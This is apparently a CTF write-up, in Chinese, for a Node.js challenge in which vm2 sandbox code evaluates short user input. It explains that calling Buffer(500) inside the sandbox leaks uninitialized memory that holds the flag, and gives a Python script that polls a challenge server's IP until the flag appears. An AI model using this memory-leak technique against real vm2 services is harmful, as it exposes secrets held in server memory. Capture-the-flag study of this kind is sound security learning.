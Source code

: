 ```

"use strict";

var randomstring = require("randomstring");
var express = require("express");
var {
    VM
} = require("vm2");
var fs = require("fs");

var app = express();
var flag = require("./config.js").flag

app.get("/", function(req, res) {
    res.header("Content-Type", "text/plain");

    /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
    eval("var flag_" + randomstring.generate(64) + " = \"flag{" + flag + "}\";")
    if (req.query.data && req.query.data.length <= 12) {
        var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
    } else {
        res.send(fs.readFileSync(__filename).toString());
    }
});

app.listen(3000, function() {
    console.log("listening on port 3000!");
});
```

由于第一个eval把flag读入了在内存中的全局变量
所以只要我们能通过沙箱里的eval去读取内存中的内容的话，就可以形成沙箱逃逸

直接用Buffer()函数用于读取内存的内容，可以通过这个函数直接去读取全局内存中的内容
由于内存的保护机制，并不是每一次都能读取到含有flag内容的代码，所以多执行几次脚本

```
# encoding=utf-8
import requests
import time
import re
url = 'http://111.200.241.244:51125/?data=Buffer(500)'
response = ''
while 'flag' not in response:
        req = requests.get(url)
        response = req.text
        print(req.status_code)
        time.sleep(0.1)
        if 'flag{' in response:
            print(re.findall(r'flag{.+}',response))
            break
```
